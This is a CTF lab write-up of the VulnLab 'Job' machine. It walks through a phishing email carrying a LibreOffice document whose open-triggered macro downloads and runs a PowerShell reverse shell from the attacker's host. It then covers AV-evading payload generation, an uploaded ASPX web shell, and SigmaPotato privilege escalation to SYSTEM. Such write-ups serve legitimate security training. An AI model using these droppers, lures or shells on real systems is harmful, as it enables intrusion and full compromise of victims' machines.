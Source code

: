 ```yaml
---
title: "Job Writeup (VulnLab)"
date: 2024-12-22 00:00:00 +0800
image: /assets/posts/job/pwnedProof2.png
description: A medium rated box on vulnlab, using phishing for initial access, lateral movement and windows privilege exploitation.
categories: [CTF Writeups]
tags: [CTF, Red Team, Phishing, AV Evasion, Potato Attacks]
---
```


## NMAP Port Scan
A basic TCP port scan was done with NMAP to enumerate running services on the machine:
```bash
sudo nmap -sS -sV -A -p- 10.10.86.141 -oA nmap
```
The NMAP Output revealed that port 25,80,445 and 3389 were running:
![NMAP Scan Result](../assets/posts/job/nmapscanresult.png)

## Discovery of an email address

In the previous NMAP scan, port 80 revealed that the http title was 'Job.local'. The address was subsequently added to the /etc/hosts file:
```bash
sudo nano /etc/hosts
```
![Hosts File](/assets/posts/job/hostsfile.png)

Browsing to the HTTP server hosted, the index.html file revealed interesting information:
![HTTP Page1](/assets/posts/job/http1.png)
The webpage states an email address 'career@job.local' while hinting at a potential phishing attack vector using libre office.


## Creating a malicious ODT file
First, I opened libreoffice and pasted Lorem Ipsum in there so the document wasn't empty:
![Lorem Ipsum](/assets/posts/job/loremjob.png)

Browse to tools->macros->organize macro's->basic & create a new macro filename.odt->standard->new
![Macros](/assets/posts/job/odtmacro1.png)
![Macro2](/assets/posts/job/odtmacro2.png)

The following code was embedded into the macro to download and execute the reverse shell: 
```bash
REM  *****  BASIC  *****

Sub Main
	Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://10.8.4.194/security.ps1')""")
End Sub
```

(NOTE: security.ps1 will be made in the next section).
It is important that the macro is immediately trigged, to achieve that we can add it to trigger when the document is opened tools->macros->organize macros->basic->select the created macro->assign->events->open document:
![Macro3](/assets/posts/job/odtmacro3.png)

Save the file and we will be ready to move onto creating an obfuscated reverse shell.

## Creating an obfuscated reverse shell
To ensure there was no hiccups with antivirus or AMSI, I utilised [Get-ReverseShell](https://github.com/gh0x0st/Get-ReverseShell) which is an excellent tool for creating obfuscated powershell payloads. This was used to generate our payload to eventually be downloaded when the malicious ODT file will be opened:
```bash
git clone https://github.com/gh0x0st/Get-ReverseShell
pwsh
Get-ReverseShell -Ip 10.8.4.194 -Port 53 > security.ps1
```


## Catching a shell as jack.black
A python3 http.sever must be setup to recieve download requests (same folder as malicious document):
```bash
python3 -m http.server 80
```
Now an NC Listener can be setup on the port chosen for the reverse shell, in this instance it was port 53:
```bash
nc -lvnp 53
```

Finally, we can send our document to the discovered email address using 'sendemail':
```bash
sendemail -s "job.local" \
-f "ross@job.local" \
-t "career@job.local" \
-o tls=no \
-m "Hi, I've attached my CV to the email. Please open it immediately" \
-a me.odt    
```

A short while later, our reverse shell file was downloaded from the web server and the shell was triggered on the machine:
![Shell](/assets/posts/job/shellproofjack.png)

## Switching to IIS Apppool
Viewing inetpub/wwwroot and checking if it was writable to potentially move into IIS Apppool
```bash
Get-Acl "C:\inetpub\wwwroot" | Format-List
```

The output shows that it is writable and it contains a hello.aspx file.
![inetpub](/assets/posts/job/inetpubenum.png)
![inetpub2](/assets/posts/job/inetpubenum2.png)

[SharPyShell](https://github.com/antonioCoco/SharPyShell) is a repository containing a script that can generate and interact with an obfuscated aspx file, we can use this to generate a file that can be later interacted with:
```bash
python3 SharPyShell.py generate -p somepassword
```

Now we can upload the aspx file to the machine via powershell after starting another python3 web server on the attacker machine:
```bash
python3 -m http.server 80
```

```bash
(New-Object Net.WebClient).DownloadFile('http://10.8.4.194:80/shell.aspx','C:\inetpub\wwwroot\shell.aspx')
```
![inetpub3](/assets/posts/job/inetpubenum3.png)

Following from the shell upload, we can interact with it via sharpyshell again to gain a HTTP interactive shell as IIS Apppool.
```bash
python3 SharPyShell.py interact -u http://job.local/shell.aspx -p somepassword
```
![inetpub4](/assets/posts/job/inetpubenum4.png)

## Abusing windows privileges to admin
Viewing account privileges on the apppool showed that SeImpersonatePrivilege was available:
```bash
whoami /priv
```
![privesc1](/assets/posts/job/privesc1.png)

From here gaining administrator privileges was relatively simple, we can use a potato exploit. In this instance I opted to use SigmaPotato https://github.com/tylerdotrar/SigmaPotato, to use this transfer it from the attacker machine to the host machine using sharpy's webshell.
```bash
#upload /opt/PrivEsc/Windows/Exploits/Potato/SigmaPotato.exe
```
Then execute sigmapotato connecting to your setup nc listener:
```bash
SigmaPotato.exe --revshell 10.8.4.194 443
```

We eventually receive a callback on the shell as NT authority\system.
![pwned](/assets/posts/job/pwned.png)
PWNED!
